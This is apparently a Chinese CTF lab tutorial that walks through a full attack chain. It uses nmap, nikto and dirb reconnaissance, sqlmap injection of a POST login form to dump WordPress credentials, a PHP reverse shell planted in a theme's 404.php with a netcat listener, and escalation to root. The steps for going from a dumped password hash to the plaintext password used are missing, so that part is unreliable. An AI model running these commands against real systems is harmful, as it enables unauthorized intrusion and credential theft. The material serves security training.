# CTF教程：P14：15.CTF夺旗-sql注入(post) 🚩

在本节课中，我们将学习CTF训练中的SQL注入攻击。我们将通过对POST参数的注入，最终获取目标主机的最高权限（root权限）。下面我们来介绍SQL注入的基本概念。

SQL注入攻击是指攻击者构造特殊的输入作为参数，传入Web应用程序，通过执行对应的SQL语句，进而执行攻击者所要的操作。其主要原因是程序没有细致地过滤或过滤不严格用户输入的数据，致使非法数据侵入系统。

其实，任何一个用户可以输入的位置都有可能成为注入点。例如，在URL中传递的参数以及HTTP报文中POST传递的参数。


上一节我们介绍了SQL注入的基本概念，本节中我们来看看具体的实验环境。

## 实验环境介绍

*   **攻击机**：使用Kali Linux，IP地址为 `192.168.1.11`。
*   **靶场机器**：使用Ubuntu系统，IP地址为 `192.168.1.104`。



我们的目标是挖掘对应漏洞，获得主机最高权限（root权限），最终取得对应的flag值。


## 信息收集



拿到靶场IP地址后，首先要进行信息探测。以下是信息收集的步骤。



### 端口扫描

我们首先探测主机开放的全部端口。使用 `nmap` 扫描工具，参数 `-T4` 表示使用最快速度扫描，`-p-` 表示扫描全部端口。



```bash
nmap -T4 -p- 192.168.1.104
```

扫描过程需要耐心等待。我们可以使用 `ping` 命令测试与靶场的连通性。

```bash
ping 192.168.1.104
```

### 详细系统信息扫描

除了扫描开放端口，我们还可以使用 `nmap` 扫描靶场机器的详细信息。参数 `-A` 表示加载所有扫描模块，`-v` 表示详细输出。

```bash
nmap -T4 -A -v 192.168.1.104
```

扫描结果显示，靶机开放了HTTP服务（80端口）和HTTPS服务（443端口）。接下来，我们将针对HTTP服务进行更深入的探测。

## Web服务敏感信息探测

针对开放的HTTP服务，我们可以使用工具探测其上的敏感文件和目录。

### 使用 Nikto 和 Dirb

*   **Nikto**：用于探测Web服务器上的敏感文件和潜在漏洞。
*   **Dirb**：用于暴力破解Web服务器上的目录和文件。

如果HTTP服务使用默认的80端口，端口号可以省略；否则，需要在命令中指定端口。

以下是探测80端口的命令：

```bash
# 使用 Nikto 探测
nikto -host http://192.168.1.104

# 使用 Dirb 探测
dirb http://192.168.1.104
```

在探测过程中，我们发现了一些有价值的目录，例如 `/phpmyadmin/`（数据库管理后台）和 `/login.php`（登录页面）。同时，我们发现8080端口也运行着HTTP服务，并探测到其可能是一个基于WordPress搭建的网站（`/wordpress/`目录）。

## 漏洞扫描与分析

在收集了基本信息后，我们需要对信息进行分析，并使用漏洞扫描器进行自动化探测。这里我们使用 **OWASP ZAP** 作为漏洞扫描器。

我们对80端口和8080端口分别进行扫描。扫描结果显示，80端口未发现高危漏洞，但存在一个登录页面（`/login.php`）。8080端口运行着一个WordPress网站。

## SQL注入漏洞利用



对于发现的登录页面（`/login.php`），我们怀疑其可能存在SQL注入漏洞。下面我们将使用 **sqlmap** 工具进行测试。



### 抓取HTTP请求包

首先，我们需要抓取登录时提交的POST请求数据包。可以使用 **Burp Suite** 作为代理进行抓包。
1.  在浏览器中设置代理（如 `127.0.0.1:8081`）。
2.  在Burp Suite中开启拦截。
3.  在登录页面输入测试用户名和密码（如 `admin` / `123456`）并提交。
4.  将Burp Suite拦截到的HTTP请求复制并保存到一个文件（如 `request.txt`）。





### 使用 sqlmap 进行注入



使用保存的请求文件，通过 `sqlmap` 进行自动化注入测试。参数说明：
*   `-r`：指定包含HTTP请求的文件。
*   `--level 3`：使用较高的测试等级。
*   `--risk 3`：使用较高的风险等级。
*   `--dbs`：枚举数据库。
*   `--dbms=mysql`：指定数据库类型为MySQL。
*   `--batch`：使用默认选项，无需人工干预。

```bash
sqlmap -r request.txt --level 3 --risk 3 --dbs --dbms=mysql --batch
```

`sqlmap` 成功识别出注入点并枚举出数据库。我们发现了一个名为 `wordpress` 的数据库，这很可能对应8080端口的WordPress站点。

### 获取数据库内容

我们进一步获取 `wordpress` 数据库中的表、字段和数据。

```bash
# 枚举指定数据库中的表
sqlmap -r request.txt -D wordpress --tables --batch



# 枚举指定表中的字段
sqlmap -r request.txt -D wordpress -T users --columns --batch



# 获取字段中的数据
sqlmap -r request.txt -D wordpress -T users -C username,password --dump --batch
```

通过注入，我们成功获取了WordPress后台的用户名（`admin`）和密码哈希值（`$P$B...`）。我们可以使用此凭据登录WordPress后台。


## 获取WebShell与系统权限

在获取了WordPress后台管理权限后，下一步是上传WebShell以获取对服务器的控制权。

### 上传WebShell



在WordPress中，可以通过编辑主题模板文件（如 `404.php`）来插入恶意代码。
1.  在Kali中准备一个PHP反向Shell脚本（如 `/usr/share/webshells/php/php-reverse-shell.php`）。
2.  修改脚本中的IP地址（攻击机IP：`192.168.1.11`）和端口（如 `4444`）。
3.  登录WordPress后台，进入“外观”->“主题编辑器”，选择 `404.php` 模板。
4.  用准备好的反向Shell代码替换原有内容并保存。

### 建立监听并触发Shell

在攻击机上使用 `netcat` 监听指定端口。

```bash
nc -nlvp 4444
```

然后，在浏览器中访问修改后的 `404.php` 文件（例如 `http://192.168.1.104:8080/wordpress/wp-content/themes/twentythirteen/404.php`），触发反向Shell连接。



### 权限提升

成功获得一个基础的Shell后，通常需要将其升级为完全交互式的TTY。

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

然后尝试提升到root权限。我们尝试使用之前获取的WordPress管理员密码。

```bash
su -
# 输入密码：superscripassword
```

输入密码后，我们成功获得了root权限。使用 `id` 命令可以确认当前用户为root。

```bash
id
# 输出：uid=0(root) gid=0(root) groups=0(root)
```

至此，我们已经完全控制了目标主机，可以查看 `root` 目录下的文件，寻找最终的flag。

## 总结

在本节课中，我们一起学习了通过POST型SQL注入获取服务器权限的完整流程。关键点如下：

1.  **信息收集是基础**：使用 `nmap`、`nikto`、`dirb` 等工具全面探测目标。
2.  **漏洞扫描与手工测试结合**：自动化扫描器（如ZAP）可能遗漏漏洞，手工测试敏感页面（如登录框）至关重要。
3.  **SQL注入利用**：利用 `sqlmap` 等工具自动化检测和利用SQL注入漏洞，获取数据库敏感信息（如后台凭据）。
4.  **横向移动与权限提升**：利用获取的凭据登录后台，通过上传WebShell获取初始访问权限，并最终提升至root权限。


需要牢记的是，**任何用户可输入的位置都可能存在注入点**。同时，不能完全依赖自动化工具的扫描结果，手工验证和深入分析是成功的关键。